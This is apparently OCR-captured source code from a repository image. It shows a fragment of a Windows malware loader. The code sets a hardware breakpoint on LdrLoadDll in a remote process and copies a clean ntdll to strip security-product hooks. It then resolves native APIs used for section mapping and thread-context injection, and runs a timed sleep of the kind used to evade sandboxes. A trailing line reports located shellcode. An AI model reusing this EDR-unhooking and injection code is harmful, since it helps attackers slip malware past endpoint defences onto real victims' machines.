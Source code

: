 ```

	printf("[+] Setting HWBP on remote process\n");

	SetHWBP((DWORD_PTR)LdrLoadDllAddress, hThread);
	printf("[+] Copying clean ntdll from remote process\n");


	size_t NtdllBAddress = reinterpret_cast<size_t>(hNtdll);
	printf("[+] Found ntdll base address: 0x%p\n", NtdllBAddress);
	int NtdllResult = CopyDLLFromDebugProcess(process.hProcess, NtdllBAddress, stealth);
	if (NtdllResult == 0)
	{
		printf("[+] Unhooked\n");
	}
	else
	{
		printf("[-] Failed to unhook\n");
	}

	// Get NtAPIs from clean NtDLL
	NtCreateSection ntCreateSection = (NtCreateSection)GetProcAddress(hNtdll, "NtCreateSection");
	NtMapViewOfSection ntMapViewOfSection = (NtMapViewOfSection)GetProcAddress(hNtdll, "NtMapViewOfSection");
	//NtUnmapViewOfSection ntUnmapViewOfSection = (NtUnmapViewOfSection)GetProcAddress(hNtdll, "NtUnmapViewOfSection");
	NtCreateUserProcess ntCreateUserProcess = (NtCreateUserProcess)GetProcAddress(hNtdll, "NtCreateUserProcess");
	NtResumeProcess ntResumeProcess = (NtResumeProcess)GetProcAddress(hNtdll, "NtResumeProcess");
	NtResumeThread ntResumeThread = (NtResumeThread)GetProcAddress(hNtdll, "NtResumeThread");
	NtSetContextThread ntSetContextThread = (NtSetContextThread)GetProcAddress(hNtdll, "NtSetContextThread");
	NtGetContextThread ntGetContextThread = (NtGetContextThread)GetProcAddress(hNtdll, "NtGetContextThread");
	NtDelayExecution ntDelayExecution = (NtDelayExecution)GetProcAddress(hNtdll, "NtDelayExecution");

	/* Delay Execution */

	// Converting minutes to milliseconds
	float ftMinutes = 0.1;
	DWORD               dwMilliSeconds = ftMinutes * 60000;
	LARGE_INTEGER       DelayInterval = { 0 };
	LONGLONG            Delay = NULL;
	NTSTATUS            STATUS = NULL;
	DWORD               _T0 = NULL,
		_T1 = NULL;

	// Converting from milliseconds to the 100-nanosecond - negative time interval
	Delay = dwMilliSeconds * 10000;
	DelayInterval.QuadPart = -Delay;

	_T0 = GetTickCount64();

	// Sleeping for 'dwMilliSeconds' ms
	if ((STATUS = ntDelayExecution(FALSE, &DelayInterval)) != 0x00 && STATUS != STATUS_TIMEOUT) {
		printf("[!] NtDelayExecution Failed With Error : 0x%0.8X \n", STATUS);
		return FALSE;
	}

	_T1 = GetTickCount64();

	// Slept for at least 'dwMilliSeconds' ms, then 'DelayExecutionVia_NtDE' succeeded, otherwize it failed
```

[+]: Shellcode located at c7160